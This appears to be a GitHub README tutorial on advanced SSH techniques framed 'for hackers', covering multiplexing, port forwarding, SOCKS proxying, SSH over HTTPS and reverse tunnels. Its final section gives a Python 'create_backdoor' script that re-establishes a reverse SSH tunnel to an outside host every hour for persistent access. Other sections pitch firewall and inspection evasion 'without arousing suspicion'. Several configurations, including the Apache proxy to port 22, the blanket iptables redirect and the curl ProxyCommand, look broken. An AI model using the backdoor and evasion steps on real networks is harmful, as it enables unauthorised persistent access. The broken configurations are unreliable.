

# 🚀 `SSH Mastery: Advanced Techniques for Hackers`

<div align="center">

```ascii
   _____  _____ _    _   __  __           _            
  / ____|/ ____| |  | | |  \/  |         | |           
 | (___ | (___ | |__| | | \  / | __ _ ___| |_ ___ _ __ 
  \___ \ \___ \|  __  | | |\/| |/ _` / __| __/ _ \ '__|
  ____) |____) | |  | | | |  | | (_| \__ \ ||  __/ |   
 |_____/|_____/|_|  |_| |_|  |_|\__,_|___/\__\___|_|   
```

</div>

## `Table of Contents`
1. [🔄 SSH Multiplexing](#-ssh-multiplexing)
2. [🔀 Advanced Port Forwarding](#-advanced-port-forwarding)
3. [🧪 SSH as a SOCKS Proxy](#-ssh-as-a-socks-proxy)
4. [🔌 SSH over HTTPS](#-ssh-over-https)
5. [📡 Reverse SSH Tunneling](#-reverse-ssh-tunneling)

---

## 🔄 `SSH Multiplexing`

> SSH multiplexing: One connection to rule them all!

<details>
<summary><strong>🔍 Why Use SSH Multiplexing?</strong></summary>

Imagine you're an administrator managing a cluster of 100 servers. Without multiplexing, each SSH connection would require its own TCP handshake, authentication, and encryption process. This can lead to noticeable delays, especially when executing commands across all servers. SSH multiplexing solves this by creating one master connection that all subsequent SSH sessions can utilize, dramatically reducing overhead and improving responsiveness.

</details>

### 📊 Multiplexing Diagram


### 🛠️ Configuration Example:

```plaintext
ControlMaster auto
ControlPath ~/.ssh/controlmasters/%r@%h:%p
ControlPersist 10m
```

- `ControlMaster auto`: Automatically sets up a master connection if one doesn't exist.
- `ControlPath`: Specifies the path for the socket file used to communicate with the master connection.
- `ControlPersist 10m`: Keeps the master connection open for 10 minutes after the last session closes.

<details>
<summary><strong>🌟 Real-World Example</strong></summary>

Consider a scenario where you need to update a configuration file across 50 servers in a Kubernetes cluster. Without multiplexing, you'd need to establish 50 separate SSH connections, each with its own authentication process. With multiplexing, you establish one master connection, and all subsequent connections reuse this existing channel, significantly speeding up the process.

[Screenshot placeholder: Show a side-by-side comparison of network traffic with and without SSH multiplexing, highlighting the reduced number of connections and improved speed.]

</details>

### 🐍 Multiplexed Connection Manager:

<details>
<summary><strong>Click to view Python script</strong></summary>

```python
import subprocess
import time

def ssh_multiplex(action, host):
    control_path = f"~/.ssh/controlmasters/%r@{host}:%p"
    actions = {
        "check": ["ssh", "-O", "check", "-S", control_path, host],
        "stop": ["ssh", "-O", "stop", "-S", control_path, host],
        "start": ["ssh", "-fN", "-M", "-S", control_path, host]
    }
    if action == "check":
        return "Master running" in subprocess.run(actions[action], capture_output=True, text=True).stderr
    subprocess.run(actions[action])

def manage_connections(hosts):
    while True:
        for host in hosts:
            if ssh_multiplex("check", host):
                print(f"Connection to {host} active")
            else:
                print(f"Creating new connection to {host}")
                ssh_multiplex("start", host)
        time.sleep(60)  # Check every minute

# Usage
hosts = ["server1.example.com", "server2.example.com", "server3.example.com"]
manage_connections(hosts)
```

</details>

---

## 🔀 `Advanced Port Forwarding`

> Bend the network to your will with SSH port forwarding!

<details>
<summary><strong>🔍 Why Use Port Forwarding?</strong></summary>

Port forwarding enables you to:
1. Access services on remote networks as if they were local
2. Bypass firewalls and network restrictions
3. Secure otherwise insecure protocols by tunneling them through SSH

</details>

### 📊 Port Forwarding Diagram


### 🌐 Dynamic Port Forwarding:

```bash
ssh -D 8080 -f -C -q -N hacker@target
```

- `-D 8080`: Sets up a dynamic port forward on local port 8080
- `-f`: Runs in background
- `-C`: Compresses data
- `-q`: Quiet mode
- `-N`: Do not execute remote commands

### 🚀 Multi-Hop Port Forwarding:

```bash
ssh -L 3306:internal_db:3306 -J jumphost hacker@internal_host
```

This command forwards local port 3306 to `internal_db:3306` through `jumphost` and `internal_host`.

[Screenshot placeholder: Diagram showing the flow of traffic through multiple SSH hops, from the local machine to the final destination server.]

### 🐍 Auto Tunnel Manager:

<details>
<summary><strong>Click to view Python script</strong></summary>

```python
import subprocess
import time
import logging

logging.basicConfig(level=logging.INFO)

tunnels = [
    {"local": 8080, "remote_host": "app_server", "remote_port": 80, "ssh_host": "gateway"},
    {"local": 3306, "remote_host": "db_server", "remote_port": 3306, "ssh_host": "gateway"}
]

def manage_tunnel(t, action):
    cmd = f"ssh -L {t['local']}:{t['remote_host']}:{t['remote_port']} -N -f {t['ssh_host']}"
    if action == "create":
        subprocess.Popen(cmd, shell=True)
    elif action == "check":
        return subprocess.call(f"netstat -tln | grep :{t['local']}", shell=True) == 0

def main():
    while True:
        for t in tunnels:
            if not manage_tunnel(t, "check"):
                logging.info(f"Recreating tunnel: {t['local']} -> {t['remote_host']}:{t['remote_port']}")
                manage_tunnel(t, "create")
        time.sleep(60)

if __name__ == "__main__":
    main()
```

</details>

---

## 🧪 `SSH as a SOCKS Proxy`

> Turn your SSH connection into a stealth mode for your traffic!

<details>
<summary><strong>🔍 Why Use SSH as a SOCKS Proxy?</strong></summary>

1. Bypass network restrictions
2. Anonymize your internet traffic
3. Secure your connection on untrusted networks
4. Access geo-restricted content

</details>

### 📊 SOCKS Proxy Diagram


### 🛠️ Setup SOCKS Proxy:

```bash
ssh -D 1080 -f -C -q -N hacker@proxy_server
```

### 🚀 Usage Examples:

- **curl:**
  ```bash
  curl --socks5 localhost:1080 http://secret-site.com
  ```

- **git:**
  ```bash
  git config --global http.proxy socks5://localhost:1080
  ```

[Screenshot placeholder: Terminal window showing the setup of a SOCKS proxy and subsequent usage with curl and git, demonstrating successful access to previously blocked resources.]

### 🦊 Traffic Router Script:

<details>
<summary><strong>Click to view Bash script</strong></summary>

```bash
#!/bin/bash

# Start proxy
ssh -D 1080 -f -C -q -N hacker@proxy_server

# Route traffic
sudo iptables -t nat -A OUTPUT -p tcp -j REDIRECT --to-ports 1080

# Run your app
your_stealthy_app

# Clean up
sudo iptables -t nat -D OUTPUT -p tcp -j REDIRECT --to-ports 1080
pkill -f "ssh -D 1080"
```

</details>

---

## 🔌 `SSH over HTTPS`

> Hide your SSH in plain sight!

<details>
<summary><strong>🔍 Why Use SSH over HTTPS?</strong></summary>

1. Bypass firewalls that block SSH traffic
2. Evade deep packet inspection
3. Access SSH services in restrictive environments
4. Maintain SSH access without arousing suspicion

</details>

### 📊 SSH over HTTPS Diagram


### 🛠️ Server Configuration:

<details>
<summary><strong>Click to view Apache configuration</strong></summary>

```apache
<VirtualHost *:443>
    ServerName ssh.secret-site.com
    SSLEngine on
    SSLCertificateFile /path/to/cert.pem
    SSLCertificateKeyFile /path/to/key.pem

    ProxyPass / http://localhost:22/
    ProxyPassReverse / http://localhost:22/
</VirtualHost>
```

</details>

### 🚀 Client-Side Configuration:

```bash
#!/bin/bash

curl -x socks5h://localhost:1080 https://ssh.secret-site.com
ssh -o ProxyCommand="curl -x socks5h://localhost:1080 %h" hacker@ssh.secret-site.com
```

[Screenshot placeholder: Network traffic analysis showing SSH traffic successfully disguised as HTTPS, bypassing firewall restrictions.]

---

## 📡 `Reverse SSH Tunneling`

> Make the server come to you!

<details>
<summary><strong>🔍 Why Use Reverse SSH Tunneling?</strong></summary>

1. Access machines behind NAT or restrictive firewalls
2. Provide remote support without port forwarding
3. Maintain persistent access to remote systems
4. Create backdoors for penetration testing (with proper authorization)

</details>

### 📊 Reverse SSH Tunneling Diagram



### 🛠️ Setup Reverse Tunnel:

```bash
ssh -R 9999:localhost:22 hacker@remote_server
```

### 🐍 Auto Reverse Tunnel:

<details>
<summary><strong>Click to view Python script</strong></summary>

```python
import subprocess
import time
import logging

logging.basicConfig(level=logging.INFO)

def create_backdoor():
    cmd = "ssh -R 9999:localhost:22 -N hacker@remote_server"
    subprocess.Popen(cmd, shell=True)
    logging.info("Reverse SSH tunnel created")

def main():
    while True:
        create_backdoor()
        time.sleep(3600)  # Recreate tunnel every hour

if __name__ == "__main__":
    main()
```

</details>

[Screenshot placeholder: Diagram illustrating the flow of a reverse SSH tunnel, showing how the local machine initiates the connection and how traffic flows back through the tunnel.]

---

<div align="center">

> Remember: With great power comes great responsibility. Use these techniques ethically and legally! 🛡️

</div>
